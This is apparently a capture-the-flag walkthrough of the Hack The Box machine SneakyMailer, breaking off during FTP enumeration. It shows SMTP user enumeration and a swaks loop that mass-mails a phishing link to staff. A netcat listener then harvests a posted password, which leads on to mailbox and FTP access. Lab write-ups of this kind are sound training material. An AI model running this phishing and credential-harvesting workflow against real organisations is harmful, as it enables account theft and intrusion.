









# HTB - SneakyMailer

## Overview


Short description to include any strange things to be dealt with

## Useful Skills and Tools

#### Save a transcript of any session \(even remote nc sessions!\)

* With the command `script $log_filename` you can save the output of any session, including stderr and output from programs such as nano and vim! This is extremely invaluable when you exit a session and have forgotten to copy or backup something you did. To stop the transcript type `exit` after exiting any shells you may have spawned during that session.

#### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.197`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ nmap -n -v -sCV -p- 10.10.10.197
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 16:59 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:59
Completed NSE at 16:59, 0.00s elapsed
Initiating NSE at 16:59
Completed NSE at 16:59, 0.00s elapsed
Initiating NSE at 16:59
Completed NSE at 16:59, 0.00s elapsed
Initiating Ping Scan at 16:59
Scanning 10.10.10.197 [2 ports]
Completed Ping Scan at 16:59, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 16:59
Scanning 10.10.10.197 [65535 ports]
Discovered open port 22/tcp on 10.10.10.197
Discovered open port 80/tcp on 10.10.10.197
Discovered open port 993/tcp on 10.10.10.197
Discovered open port 25/tcp on 10.10.10.197
Discovered open port 21/tcp on 10.10.10.197
Discovered open port 8080/tcp on 10.10.10.197
Discovered open port 143/tcp on 10.10.10.197
Completed Connect Scan at 17:00, 29.26s elapsed (65535 total ports)
Initiating Service scan at 17:00
Scanning 7 services on 10.10.10.197
Completed Service scan at 17:00, 10.12s elapsed (7 services on 1 host)
NSE: Script scanning 10.10.10.197.
Initiating NSE at 17:00
Completed NSE at 17:00, 13.18s elapsed
Initiating NSE at 17:00
Completed NSE at 17:01, 28.39s elapsed
Initiating NSE at 17:01
Completed NSE at 17:01, 0.00s elapsed
Nmap scan report for 10.10.10.197
Host is up (0.078s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
80/tcp   open  http     nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://sneakycorp.htb
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: IMAP4rev1 STARTTLS OK IDLE THREAD=ORDEREDSUBJECT SORT ACL QUOTA UIDPLUS UTF8=ACCEPTA0001 NAMESPACE completed THREAD=REFERENCES CHILDREN CAPABILITY ENABLE ACL2=UNION
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-14T17:14:21
| Not valid after:  2021-05-14T17:14:21
| MD5:   3faf 4166 f274 83c5 8161 03ed f9c2 0308
|_SHA-1: f79f 040b 2cd7 afe0 31fa 08c3 b30a 5ff5 7b63 566c
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
|_imap-capabilities: IMAP4rev1 OK IDLE THREAD=ORDEREDSUBJECT SORT ACL QUOTA UIDPLUS UTF8=ACCEPTA0001 NAMESPACE completed AUTH=PLAIN THREAD=REFERENCES CHILDREN CAPABILITY ENABLE ACL2=UNION
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-14T17:14:21
| Not valid after:  2021-05-14T17:14:21
| MD5:   3faf 4166 f274 83c5 8161 03ed f9c2 0308
|_SHA-1: f79f 040b 2cd7 afe0 31fa 08c3 b30a 5ff5 7b63 566c
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 17:01
Completed NSE at 17:01, 0.00s elapsed
Initiating NSE at 17:01
Completed NSE at 17:01, 0.00s elapsed
Initiating NSE at 17:01
Completed NSE at 17:01, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.28 seconds
```

21,22,25,80,143,993,8080 open

### Port 21 - FTP

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:zweilos): anonymous
530 Permission denied.
Login failed.
ftp> exit
221 Goodbye.
```

First I tried anonymous login through FTP, but was denied access.

### Port 80 - HTTP

port 80 - redirected to [http://sneakycorp.htb/](http://sneakycorp.htb/) - added to /etc/hosts



After adding the domain name to /etc/hosts


I found the names Cara Stevens & Bradley Greer from the messages pop-up.  Possible usernames can be extracted from these names using common business username patterns.



I also checked the page source code to see if there was anything interesting in the messages that couldn't be seen in the previews, and found that Bradley Greer was my 'personal tester' and Cara Stevens was the owner of the company.  Both seemed like good targets.



On the `/team.php` page there was a listing of company employees.  

```text
Name    Position    Office    Email
Airi Satou     Accountant     Tokyo     airisatou@sneakymailer.htb
Angelica Ramos     Chief Executive Officer (CEO)     London     angelicaramos@sneakymailer.htb
Ashton Cox     Junior Technical Author     San Francisco     ashtoncox@sneakymailer.htb
Bradley Greer     Tester     London     bradleygreer@sneakymailer.htb
Brenden Wagner     Software Engineer     San Francisco     brendenwagner@sneakymailer.htb
Brielle Williamson     Tester     New York     briellewilliamson@sneakymailer.htb
Bruno Nash     Software Engineer     London     brunonash@sneakymailer.htb
Caesar Vance     Tester     New York     caesarvance@sneakymailer.htb
Cara Stevens     Sales Assistant     New York     carastevens@sneakymailer.htb
Cedric Kelly     Senior Javascript Developer     Edinburgh     cedrickelly@sneakymailer.htb
Charde Marshall     Tester     San Francisco     chardemarshall@sneakymailer.htb
Colleen Hurst     Javascript Developer     San Francisco     colleenhurst@sneakymailer.htb
Dai Rios     Personnel Lead     Edinburgh     dairios@sneakymailer.htb
Donna Snider     Customer Support     New York     donnasnider@sneakymailer.htb
Doris Wilder     Sales Assistant     Sidney     doriswilder@sneakymailer.htb
Finn Camacho     Support Engineer     San Francisco     finncamacho@sneakymailer.htb
Fiona Green     Tester     San Francisco     fionagreen@sneakymailer.htb
Garrett Winters     Accountant     Tokyo     garrettwinters@sneakymailer.htb
Gavin Cortez     Team Leader     San Francisco     gavincortez@sneakymailer.htb
Gavin Joyce     Developer     Edinburgh     gavinjoyce@sneakymailer.htb
Gloria Little     Systems Administrator     New York     glorialittle@sneakymailer.htb
Haley Kennedy     Tester     London     haleykennedy@sneakymailer.htb
Hermione Butler     Regional Director     London     hermionebutler@sneakymailer.htb
Herrod Chandler     Tester     San Francisco     herrodchandler@sneakymailer.htb
Hope Fuentes     Secretary     San Francisco     hopefuentes@sneakymailer.htb
Howard Hatfield     Office Manager     San Francisco     howardhatfield@sneakymailer.htb
Jackson Bradshaw     Director     New York     jacksonbradshaw@sneakymailer.htb
Jena Gaines     Office Manager     London     jenagaines@sneakymailer.htb
Jenette Caldwell     Development Lead     New York     jenettecaldwell@sneakymailer.htb
Jennifer Acosta     Junior Javascript Developer     Edinburgh     jenniferacosta@sneakymailer.htb
Jennifer Chang     Regional Director     Singapore     jenniferchang@sneakymailer.htb
Jonas Alexander     Developer     San Francisco     jonasalexander@sneakymailer.htb
Lael Greer     Systems Administrator     London     laelgreer@sneakymailer.htb
Martena Mccray     Post-Sales support     Edinburgh     martenamccray@sneakymailer.htb
Michael Silva     Marketing Designer     London     michaelsilva@sneakymailer.htb
Michelle House     Integration Specialist     Sidney     michellehouse@sneakymailer.htb
Olivia Liang     Support Engineer     Singapore     olivialiang@sneakymailer.htb
Paul Byrd     Tester     New York     paulbyrd@sneakymailer.htb
Prescott Bartlett     Technical Author     London     prescottbartlett@sneakymailer.htb
Quinn Flynn     Support Lead     Edinburgh     quinnflynn@sneakymailer.htb
Rhona Davidson     Integration Specialist     Tokyo     rhonadavidson@sneakymailer.htb
Sakura Yamamoto     Support Engineer     Tokyo     sakurayamamoto@sneakymailer.htb
Serge Baldwin     Data Coordinator     Singapore     sergebaldwin@sneakymailer.htb
Shad Decker     Regional Director     Edinburgh     shaddecker@sneakymailer.htb
Shou Itou     Regional Marketing     Tokyo     shouitou@sneakymailer.htb
Sonya Frost     Tester     Edinburgh     sonyafrost@sneakymailer.htb
Suki Burks     Developer     London     sukiburks@sneakymailer.htb
sulcud     The new guy     Freelance     sulcud@sneakymailer.htb
Tatyana Fitzpatrick     Regional Director     London     tatyanafitzpatrick@sneakymailer.htb
Thor Walton     Developer     New York     thorwalton@sneakymailer.htb
Tiger Nixon     System Architect     Edinburgh     tigernixon@sneakymailer.htb
Timothy Mooney     Office Manager     London     timothymooney@sneakymailer.htb
Unity Butler     Marketing Designer     San Francisco     unitybutler@sneakymailer.htb
Vivian Harrell     Financial Controller     San Francisco     vivianharrell@sneakymailer.htb
Yuri Berry     Chief Marketing Officer (CMO)     New York     yuriberry@sneakymailer.htb
Zenaida Frank     Software Engineer     New York     zenaidafrank@sneakymailer.htb
Zorita Serrano     Software Engineer     San Francisco     zoritaserrano@sneakymailer.htb
```

There was a huge list of employees at the company. I added the usernames and emails to lists for later use


I found out afterwards that there is a nice tool that can extract emails from a page: [https://email-checker.net/extract](https://email-checker.net/extract)



In the source code of the page I also found a reference to a register page at `/pypi/register.php`.  



Dirbuster also found this page shortly afterwards, though there wasn't much else to look through.


I navigated to this register page and tried to create an account, however it did not seem to be functional.

typing in pypi.sneakycorp.htb redirects to the main page, loaded ffuf to see if I could find any other virtual hosts

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.sneakycorp.htb/ -c                     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://FUZZ.sneakycorp.htb/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

dev                     [Status: 200, Size: 13737, Words: 4007, Lines: 341]
```



on dev.sneakycorp.htb found a site that was almost identical to main page, though the register page was visible in a link here. 


Tried to register again

### Port 8080 - HTTP



Decided to check out the port 8080 on each of the virtual hosts, dev did not lead anywhere



, but pypi did: [http://pypi.sneakycorp.htb:8080/](http://pypi.sneakycorp.htb:8080/)


found pypiserver version 1.3.2 - newest is 1.4.2


[https://blog.pentesteracademy.com/learn-to-interact-with-pypi-server-in-3-minutes-71d45fa46273](https://blog.pentesteracademy.com/learn-to-interact-with-pypi-server-in-3-minutes-71d45fa46273)

### Port 25 - SMTP

#### Verifying valid email addresses

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ telnet sneakycorp.htb 25                                                                        1 ⨯
Trying 10.10.10.197...
Connected to sneakycorp.htb.
Escape character is '^]'.
HELO
220 debian ESMTP Postfix (Debian/GNU)
501 Syntax: HELO hostname
HELO sneakycorp.htb
250 debian
MAIL FROM:zweilos@sneakycorp.htb
250 2.1.0 Ok
RCPT TO:bradleygreer@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
This is a test!    


.
250 2.0.0 Ok: queued as 155A82467F
VRFY root
252 2.0.0 root
vrfy test
550 5.1.1 <test>: Recipient address rejected: User unknown in local recipient table
VRFY bradleygreer@sneakymailer.htb
252 2.0.0 bradleygreer@sneakymailer.htb
VRFY carastevens@sneakymailer.htb
252 2.0.0 carastevens@sneakymailer.htb
VRFY airisatou@sneakymailer.htb
252 2.0.0 airisatou@sneakymailer.htb
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
```

[https://www.interserver.net/tips/kb/check-email-address-really-exists-without-sending-email/](https://www.interserver.net/tips/kb/check-email-address-really-exists-without-sending-email/) [https://www.mailenable.com/kb/content/article.asp?ID=ME020207](https://www.mailenable.com/kb/content/article.asp?ID=ME020207) Sent an email to my personal tester greer-san... tested a few addresses, all seem valid

```text
msf5 exploit(multi/handler) > use smtp_enum

Matching Modules
================

   #  Name                              Disclosure Date  Rank    Check  Description
   -  ----                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/smtp/smtp_enum                   normal  No     SMTP User Enumeration Utility


[*] Using auxiliary/scanner/smtp/smtp_enum
msf5 auxiliary(scanner/smtp/smtp_enum) > options

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                                Required  Description
   ----       ---------------                                                --------  -----------
   RHOSTS     10.10.10.193                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      25                                                             yes       The target port (TCP)
   THREADS    1                                                              yes       The number of concurrent threads (max one per host)
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of probable users accounts.

msf5 auxiliary(scanner/smtp/smtp_enum) > set rhosts 10.10.10.197
rhosts => 10.10.10.197
msf5 auxiliary(scanner/smtp/smtp_enum) > run


[*] 10.10.10.197:25       - 10.10.10.197:25 Banner: 220 debian ESMTP Postfix (Debian/GNU)
[+] 10.10.10.197:25       - 10.10.10.197:25 Users found: , _apt, avahi-autoipd, backup, bin, daemon, ftp, games, gnats, irc, list, lp, mail, man, messagebus, news, nobody, postfix, postmaster, proxy, sshd, sync, sys, systemd-coredump, systemd-network, systemd-resolve, systemd-timesync, uucp, www-data
[*] 10.10.10.197:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE users
USER_FILE => users
msf5 auxiliary(scanner/smtp/smtp_enum) > run

[*] 10.10.10.197:25       - 10.10.10.197:25 Banner: 220 debian ESMTP Postfix (Debian/GNU)
[+] 10.10.10.197:25       - 10.10.10.197:25 Users found: airisatou@sneakymailer.htb, angelicaramos@sneakymailer.htb, ashtoncox@sneakymailer.htb, bradleygreer@sneakymailer.htb, brendenwagner@sneakymailer.htb, briellewilliamson@sneakymailer.htb, brunonash@sneakymailer.htb, caesarvance@sneakymailer.htb, carastevens@sneakymailer.htb, cedrickelly@sneakymailer.htb, chardemarshall@sneakymailer.htb, colleenhurst@sneakymailer.htb, dairios@sneakymailer.htb, donnasnider@sneakymailer.htb, doriswilder@sneakymailer.htb, finncamacho@sneakymailer.htb, fionagreen@sneakymailer.htb, garrettwinters@sneakymailer.htb, gavincortez@sneakymailer.htb, gavinjoyce@sneakymailer.htb, glorialittle@sneakymailer.htb, haleykennedy@sneakymailer.htb, hermionebutler@sneakymailer.htb, herrodchandler@sneakymailer.htb, hopefuentes@sneakymailer.htb, howardhatfield@sneakymailer.htb, jacksonbradshaw@sneakymailer.htb, jenagaines@sneakymailer.htb, jenettecaldwell@sneakymailer.htb, jenniferacosta@sneakymailer.htb, jenniferchang@sneakymailer.htb, jonasalexander@sneakymailer.htb, laelgreer@sneakymailer.htb, martenamccray@sneakymailer.htb, michaelsilva@sneakymailer.htb, michellehouse@sneakymailer.htb, olivialiang@sneakymailer.htb, paulbyrd@sneakymailer.htb, prescottbartlett@sneakymailer.htb, quinnflynn@sneakymailer.htb, rhonadavidson@sneakymailer.htb, sakurayamamoto@sneakymailer.htb, sergebaldwin@sneakymailer.htb, shaddecker@sneakymailer.htb, shouitou@sneakymailer.htb, sonyafrost@sneakymailer.htb, sukiburks@sneakymailer.htb, sulcud@sneakymailer.htb, tatyanafitzpatrick@sneakymailer.htb, thorwalton@sneakymailer.htb, tigernixon@sneakymailer.htb, timothymooney@sneakymailer.htb, unitybutler@sneakymailer.htb, vivianharrell@sneakymailer.htb, yuriberry@sneakymailer.htb, zenaidafrank@sneakymailer.htb, zoritaserrano@sneakymailer.htb
[*] 10.10.10.197:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

verified all the usernames

### Sending a phishing email with SMTP

Searched how to interact with SMTP through command line - [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ for address in $(cat users); do swaks --helo sneakycorp.htb \
--to $address --from zweilos@sneakymailer.htb --header "Subject: Check this out" \
--body "Check this out! http://10.10.15.100:8090/" --server 10.10.10.197; done
  
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO sneakycorp.htb
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<zweilos@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<airisatou@sneakymailer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 08 Nov 2020 21:03:55 -0500
 -> To: airisatou@sneakymailer.htb
 -> From: zweilos@sneakymailer.htb
 -> Subject: Check this out
 -> Message-Id: <20201108210355.081776@kali.kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Check this out! http://10.10.15.100:8090/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as B850724954
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO sneakycorp.htb
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<zweilos@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<angelicaramos@sneakymailer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 08 Nov 2020 21:04:05 -0500
 -> To: angelicaramos@sneakymailer.htb
 -> From: zweilos@sneakymailer.htb
 -> Subject: Check this out
 -> Message-Id: <20201108210405.081780@kali.kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Check this out! http://10.10.15.100:8090/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 3A9A124956
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

no reply, so maybe try working local address? also put the "link" on a new line in case whatever script cant parse it for some reason \(maybe the `!`?\)

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ for address in $(cat users); do swaks --helo sneakycorp.htb \
--to $address --from root@sneakymailer.htb --header "Subject: Check this out" \
--body "Check this out. \nhttp://10.10.15.100:8090/" --server 10.10.10.197; done 

=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO sneakycorp.htb
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<root@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<airisatou@sneakymailer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 08 Nov 2020 21:22:30 -0500
 -> To: airisatou@sneakymailer.htb
 -> From: root@sneakymailer.htb
 -> Subject: Check this out
 -> Message-Id: <20201108212230.082099@kali.kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Check this out! 
 -> http://10.10.15.100:8090/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 5A9CF249C9
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.

...snipped...

=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO sneakycorp.htb
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<root@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<zenaidafrank@sneakymailer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Wed, 11 Nov 2020 11:19:46 -0500
 -> To: zenaidafrank@sneakymailer.htb
 -> From: root@sneakymailer.htb
 -> Subject: Check this out
 -> Message-Id: <20201111111946.150282@kali.kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Check this out 
 -> http://10.10.14.174:8090/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as C831324848
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO sneakycorp.htb
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<root@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<zoritaserrano@sneakymailer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Wed, 11 Nov 2020 11:19:57 -0500
 -> To: zoritaserrano@sneakymailer.htb
 -> From: root@sneakymailer.htb
 -> Subject: Check this out
 -> Message-Id: <20201111111957.150283@kali.kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Check this out 
 -> http://10.10.14.174:8090/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 408FC2484A
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

going to try restting box since getting no replies to phishing email, also remove `!` from body to see if that causing issues



Was doing packet capture the whole time trying to see if my messages were being sent/recieved, and finally got a reply back from one



```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ nc -lvnp 8090                                                                                  1 ⨯
listening on [any] 8090 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.10.197] 51434
POST / HTTP/1.1
Host: 10.10.14.174:8090
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

Got a click! The user Paul Byrd clicked on my link and gave me a \(URL-encoded\) password.

```text
firstName=Paul&lastName=Byrd&email=paulbyrd@sneakymailer.htb&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

This decoded to give me a \(super-complicated\) password of:

```text
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

### Reading Paul's mail

Since Paul was nice enough to send me his email password, I decided to log into his mailbox to see what kind of information I could find


I put in the account information for Paul into my email client and pointed the server towards the target.


After logging into the mailbox I noticed there wasn't anything in the inbox \(probably emptied regularly to keep other players from accidentally clicking on each other's phishing email links\).  There were two messages in the `Sent items` folder, however.  The first was an email to the administrator `root@debian` asking them to change the password for the `developer` account.  He was nice enough to send the old password `m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C` as well.  I made sure to take note of this in case it was used anywhere, or in case the admin hadn't changed it yet.


The second email was addressed to `low`, which I thought was another potential username on the machine.  The message laid out a task to "install, test, and then erase" all of the modules in the PyPI service.  I hoped that perhaps Paul had created a script to automate this action, and that I could possibly get it to execute a module I somehow got installed to the service.

```text
Hello administrator, I want to change this password for the developer account

Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C 

Please notify me when you do it
```

Since I now had credentials, I though it would most likely log into the PyPI server I found earlier.  


nothing in packages


nor in the index page

However, this did not work, nor did logging into SSH.  I checked back with my nmap scan to see if there were any other services I could try, and noticed port 21 - FTP was open, so I gave it a try.

### FTP Enumeration

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ ftp 10.10.10.197                                                                              255 ⨯
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:zweilos): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Using the credentials I had found for the `delevoper` account I was able to login through FTP.

```text
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Nov 11 09:16 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 18:52 css
drwxr-xr-x    2 0        0            4096 May 26 18:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 08:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 18:52 js
drwxr-xr-x    2 0        0            4096 May 26 18:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 18:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 19:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 18:52 vendor
226 Directory send OK.
ftp> get team.php
local: team.php remote: team.php
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for team.php (26523 bytes).
226 Transfer complete.
26523 bytes received in 0.05 secs (557.8464 kB/s)
ftp> cd pypi
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            3115 May 26 18:52 register.php
226 Directory send OK.
ftp> get register.php
local: register.php remote: register.php
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for register.php (3115 bytes).
226 Transfer complete.
3115 bytes received in 0.00 secs (52.1175 MB/s)
ftp> cd ../vendor
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 May 26 18:52 bootstrap
drwxr-xr-x    2 0        0            4096 May 26 18:52 chart.js
drwxr-xr-x    2 0        0            4096 May 26 18:52 datatables
drwxr-xr-x   10 0        0            4096 May 26 18:52 fontawesome-free
drwxr-xr-x    2 0        0            4096 May 26 18:52 jquery
drwxr-xr-x    2 0        0            4096 May 26 18:52 jquery-easing
226 Directory send OK.
ftp> cd datatables
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            5799 May 26 18:52 dataTables.bootstrap4.css
-rwxr-xr-x    1 0        0            4693 May 26 18:52 dataTables.bootstrap4.js
-rwxr-xr-x    1 0        0            5222 May 26 18:52 dataTables.bootstrap4.min.css
-rwxr-xr-x    1 0        0            2085 May 26 18:52 dataTables.bootstrap4.min.js
-rwxr-xr-x    1 0        0          448564 May 26 18:52 jquery.dataTables.js
-rwxr-xr-x    1 0        0           82650 May 26 18:52 jquery.dataTables.min.js
226 Directory send OK.
ftp> cd ../
250 Directory successfully changed.
ftp> cd ..
\250 Directory successfully changed.
ftp> get index.php
local: index.php remote: index.php
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for index.php (13742 bytes).
